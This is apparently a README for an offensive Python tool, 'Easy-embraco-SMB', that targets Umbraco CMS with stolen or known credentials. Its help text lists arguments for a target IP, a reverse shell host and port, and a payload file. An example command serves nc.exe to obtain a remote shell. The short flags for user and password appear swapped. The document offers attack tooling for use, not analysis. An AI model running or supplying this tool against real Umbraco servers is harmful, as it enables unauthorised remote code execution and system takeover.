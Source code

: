 # Easy-embraco-SMB

## Command line arguments
Easy-embraco-SMB.py [-h] --target TARGET --host HOST [--port PORT] [--load LOAD] --user USER --passw PASSW

optional arguments:
  \-h, --help            show this help message and exit
  \--target TARGET, -t TARGET Target IP address
  \--host HOST, -x HOST  IP for reverse shell
  \--port PORT, -p PORT  Port for reverse shell
  \--load LOAD, -l LOAD  Path to file or script to provide to the public
  \--user USER, -P USER  User name for Umbraco
  \--passw PASSW, -U PASSW  Password for Umbraco


## Example usage
sudo python3 Easy-embraco-SMB.py --target 0.0.0.0 --host 0.0.0.0 --port 4444 --user admin@admin.com --pass admin --load ./nc.exe
